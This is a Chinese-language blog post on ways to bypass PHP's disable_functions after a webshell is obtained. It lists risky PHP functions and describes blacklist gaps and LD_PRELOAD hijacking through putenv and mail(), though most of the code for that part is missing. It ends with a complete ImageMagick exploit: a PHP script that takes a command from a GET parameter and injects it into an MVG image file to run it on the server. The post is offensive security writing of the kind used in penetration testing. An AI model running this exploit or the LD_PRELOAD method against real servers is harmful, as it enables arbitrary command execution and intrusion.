

PHP disable_functions Bypass 的方法探究
本文最后更新于：2023年5月4日 上午
PHP 的 disable_functions 用于禁用一些危险的函数避免被攻击者利用，那么要如何突破这一层呢？
最近在做渗透测试的时候遇到了一个障碍，已经 getshell 了，但是由于 PHP disable_functions 的存在，无法执行系统命令（即使是 ls 这样的命令。后来发现了一些资料，感觉很多干货，也成功了。于是总结了一下。
disable_functions
先来看看哪些函数需要放入 disable_functions：
passthru()
功能描述：允许执行一个外部程序并回显输出，类似于 exec()。
危险等级：高
exec()
功能描述：允许执行一个外部程序（如 UNIX Shell 或 CMD 命令等）。
危险等级：高
system()
功能描述：允许执行一个外部程序并回显输出，类似于 passthru()。
危险等级：高
(windows 下的 `` 执行命令，用的是这个函数)
chroot()
功能描述：可改变当前 PHP 进程的工作根目录，仅当系统支持 CLI 模式
PHP 时才能工作，且该函数不适用于 Windows 系统。
危险等级：高
chgrp()
功能描述：改变文件或目录所属的用户组。
危险等级：高
chown()
功能描述：改变文件或目录的所有者。
危险等级：高
shell_exec()
功能描述：通过 Shell 执行命令，并将执行结果作为字符串返回。
危险等级：高
(Linux 下的 `` 用的是这个函数)
proc_open()
功能描述：执行一个命令并打开文件指针用于读取以及写入。
危险等级：高
proc_get_status()
功能描述：获取使用 proc_open() 所打开进程的信息。
危险等级：高
ini_alter()
功能描述：是 ini_set() 函数的一个别名函数，功能与 ini_set() 相同。
具体参见 ini_set()。
危险等级：高
ini_set()
功能描述：可用于修改、设置 PHP 环境配置参数。
危险等级：高
ini_restore()
功能描述：可用于恢复 PHP 环境配置参数到其初始值。
危险等级：高
dl()
功能描述：在 PHP 进行运行过程当中（而非启动时）加载一个 PHP 外部模块。
危险等级：高
pfsockopen()
功能描述：建立一个 Internet 或 UNIX 域的 socket 持久连接。
危险等级：高
symlink()
功能描述：在 UNIX 系统中建立一个符号链接。
危险等级：高
popen()
功能描述：可通过 popen() 的参数传递一条命令，并对 popen() 所打开的文件进行执行。
危险等级：高
putenv()
功能描述：用于在 PHP 运行时改变系统字符集环境。在低于 5.2.6 版本的 PHP 中，可利用该函数
修改系统字符集环境后，利用 sendmail 指令发送特殊参数执行系统 SHELL 命令。
危险等级：高
phpinfo()
功能描述：输出 PHP 环境信息以及相关的模块、WEB 环境等信息。
危险等级：中
scandir()
功能描述：列出指定路径中的文件和目录。
危险等级：中
syslog()
功能描述：可调用 UNIX 系统的系统层 syslog() 函数。
危险等级：中
readlink()
功能描述：返回符号连接指向的目标文件内容。
危险等级：中
stream_socket_server()
功能描述：建立一个 Internet 或 UNIX 服务器连接。
危险等级：中
error_log()
功能描述：将错误信息发送到指定位置（文件）。
安全备注：在某些版本的 PHP 中，可使用 error_log() 绕过 PHP safe mode，
执行任意命令。
危险等级：低
Bypass 测试
首先，删除所有 disable_function 禁用的函数，并打开 display_errors
黑名单绕过
php 下能够执行系统命令的函数有哪些？
1 | |
那么 便可以看看 php.ini 中的 disable_function 漏过了哪些函数，若存在漏网之鱼，直接利用即可
LD_PRELOAD
在 UNIX 的动态链接库的世界中，LD_PRELOAD 是一个有趣的环境变量，它可以影响程序运行时的链接，它允许你定义在程序运行前优先加载的动态链接库。简单地说，可注入自己的代码，覆盖原有代码。也就是说如果程序在运行过程中调用了某个标准的动态链接库的函数，那么我们就有机会通过 LD_PRELOAD 来设置它优先加载我们自己编写的程序，实现劫持。
以 sendmail 为例：(没有 sendmail 的话需要安装)
使用 readelf -Ws /usr/sbin/sendmail 来看 sendmail 函数都调用了哪些库函数：
1 | |
从中选取一个合适的库函数进行测试
- 编制我们自己的动态链接程序。
- 通过 putenv 来设置 LD_PRELOAD，让我们的程序优先被调用。
- 在 webshell 上用 mail 函数发送一封邮件来触发。
我们来测试 ls，选取 geteuid()函数来改造：
1 | |
当这个共享库中的 geteuid 被调用时，尝试加载 payload() 函数，执行命令。这个测试函数写的很简单，实际应用时可相应调整完善。在攻击机上（注意编译平台应和靶机平台相近，至少不能一个是 32 位一个是 64 位）把它编译为一个位置信息无关的动态共享库：
1 | |
然后把 .so 传到服务器上，再写入 webshell：
1 | |
注意 .so 路径。在浏览器中访问 webshell 就可以执行我们预期的语句了。按照此理，我们可以执行任意特定权限的命令。
我在最近几天的渗透过程中，用的就是这个办法。那么其实还存在一个问题，若要执行不同的语句，我们还得一次又一次地编译，上传。有没有办法只编译一次然后重复利用呢？可以借助 python
我们的 hack.c 如下：
1 | |
cmd.py 如下：
1 | |
然后我们只需要修改 cmd.txt 就可以执行不同语句了。
再者，这个思路不仅仅局限于 mail。但是我还没找到其他函数可以利用。有人说 syslog 可以，但是我试了一下好像不行。。
Py 测试脚本:
拿 sendmail 为例，那么多函数，一个一个试要吐血。可以用 python 来完成：
1 | |
放在 www 下，test.php 如下：
1 | |
以 sendmail 为例：
1 | |
有 16 个
不过每次运行的结果不一定一样，比较迷，此处存疑。
ImageMagick 漏洞绕过
直接上 exp:
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24<?php
echo "Disable Functions: " . ini_get('disable_functions') . "\n";
$command = PHP_SAPI == 'cli' ? $argv[1] : $_GET['cmd'];
if ($command == '') {
$command = 'id';
}
$exploit = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|$command")'
pop graphic-context
EOF;
file_put_contents("KKKK.mvg", $exploit);
$thumb = new Imagick();
$thumb->readImage('KKKK.mvg');
$thumb->writeImage('KKKK.png');
$thumb->clear();
$thumb->destroy();
unlink("KKKK.mvg");
unlink("KKKK.png");
?>

来呀快活呀